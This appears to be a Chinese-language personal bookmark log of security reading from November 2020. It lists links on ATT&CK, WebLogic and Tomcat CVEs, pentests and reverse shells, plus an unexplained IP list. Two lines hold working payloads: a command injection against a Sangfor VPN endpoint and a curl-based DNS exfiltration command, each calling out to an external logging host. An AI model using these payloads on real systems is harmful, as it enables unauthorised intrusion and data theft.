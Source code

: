 网络攻击前沿：ATT&CK 模型一览
https://www.freebuf.com/articles/ics-articles/254809.html

挖洞经验 | 开放重定向漏洞导致的账户劫持
https://www.freebuf.com/articles/web/252415.html

Codeql分析Vulnerability-GoApp
https://www.freebuf.com/articles/web/253491.html

WebLogic未授权访问及命令执行分析（CVE-2020-1488214883）
https://www.freebuf.com/vuls/254408.html

攻守道：流量分析的刀光剑影（上）
https://www.freebuf.com/articles/web/253603.html

CVE-2020-16898 "BAD NEIGHBOR " Windows TCPIP远程代码执行...
https://www.freebuf.com/articles/system/252263.html

云迁移安全先导篇：2020云安全趋势及主要威胁
https://www.freebuf.com/articles/es/249945.html


## 20201113

https://www.commandlinefu.com/commands/browse
 tree -L 2 -ugpd

[如何在Ubuntu v20.04上获取root权限](https://www.anquanke.com/post/id/222285)

[CVE-2020-13935 Apache Tomcat Websocket DoS 漏洞分析](https://www.anquanke.com/post/id/222279)

[诺贝尔奖得主：延缓衰老的秘密是精神活动，“正念”使人保持年轻](https://xw.qq.com/partner/vivoscreen/20201109A0B7LK00?vivoRcdMark=1)

101.226.27.240,180.101.150.117,180.101.150.118,180.101.150.119,180.101.150.114,180.101.150.115,180.101.150.113,180.101.150.112,101.226.27.239,101.226.27.242,101.226.27.241,101.226.27.243,101.226.27.237,101.226.27.236,101.226.27.238

## 20201112

https://dev.to/mayruiz27/design-patterns-for-frontend-developers-2ii3

https://dev.to/frosnerd/writing-my-own-boot-loader-3mld | 系统boot

[一次平平无奇的渗透测试](https://www.anquanke.com/post/id/222218)
[2020攻防演练弹药库-您有主机上线请注意](https://f5.pm/go-26547.html)
深信服VPN远程代码执行 https:/123.123.123.123/por/checkurl.csp?timeout=3&retry=0&url=http://admin.ceye.io/`uname`

反弹 shell 
[Linux 反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)

DNS马： -h|curl `whoami`.Smuxdz.dnslog.cn
http://dnslog.cn/
https://github.com/BugScanTeam/DNSLog
DNSLog 是四叶草安全旗下 BugscanTeam 打造的一款监控 DNS 解析记录和 HTTP 访问记录的工具，在检测盲注类漏洞时有着非常重要的作用，是分布式漏洞扫描框架 BugScan 中核心库之一。
